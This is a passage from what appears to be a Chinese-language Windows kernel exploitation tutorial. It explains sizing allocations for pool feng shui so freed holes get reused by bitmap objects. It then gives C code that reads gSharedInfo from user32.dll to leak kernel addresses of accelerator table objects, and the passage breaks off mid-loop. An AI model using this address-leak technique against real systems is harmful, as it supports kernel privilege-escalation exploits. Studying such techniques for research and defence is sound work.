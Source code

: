 首先是很重要的一个点，size 的大小

size 的大小不能太小，太小的话重用性极低，即使你用了 pool fengshui 挖洞来期待内存管理器往洞上重用 bitmap 对象，你会发现重用性还是极低

当然太大也不好。所以你会看到 size 的值在 700 左右

我们看一下这段小代码

```c
// test2.cpp : Defines the entry point for the console application.
//

#include "stdafx.h"

#include <Windows.h>

typedef struct _SERVERINFO {
	DWORD dwSRVIFlags;
	DWORD cHandleEntries;
	WORD wSRVIFlags;
	WORD wRIPPID;
	WORD wRIPError;
} SERVERINFO, *PSERVERINFO;

typedef struct _USER_HANDLE_ENTRY {
	void    *pKernel;
	union
	{
		PVOID pi;
		PVOID pti;
		PVOID ppi;
	};
	BYTE type;
	BYTE flags;
	WORD generation;
} USER_HANDLE_ENTRY, *PUSER_HANDLE_ENTRY;

typedef struct _SHAREDINFO {
	PSERVERINFO psi;
	PUSER_HANDLE_ENTRY aheList;
	ULONG HeEntrySize;
	ULONG_PTR pDispInfo;
	ULONG_PTR ulSharedDelts;
	ULONG_PTR awmControl;
	ULONG_PTR DefWindowMsgs;
	ULONG_PTR DefWindowSpecMsgs;
} SHAREDINFO, *PSHAREDINFO;

int main()
{
	PUSER_HANDLE_ENTRY leakAddr = NULL;
	PSHAREDINFO gSharedInfo = (PSHAREDINFO)GetProcAddress(GetModuleHandle("user32.dll"), "gSharedInfo");
	PUSER_HANDLE_ENTRY handleTable = gSharedInfo->aheList;

	int nSize = 100;

	LPACCEL lPaccel = NULL;
	// LPTR 意为 LMEM_FIXED | LMEM_ZEROINIT，即分配固定内存并初始化为 0
	lPaccel = (LPACCEL)LocalAlloc(LPTR, sizeof(ACCEL) * nSize);

	for (int i = 0; i < 10; i++) {
		HACCEL hAccel = CreateAcceleratorTable(lPaccel, nSize);
		leakAddr = &handleTable[LOWORD(hAccel)];
		DWORD64 accelAddr = (DWORD64)(leakAddr->pKernel);
		printf("accel user object addr: 0x%p\n", accelAddr);
```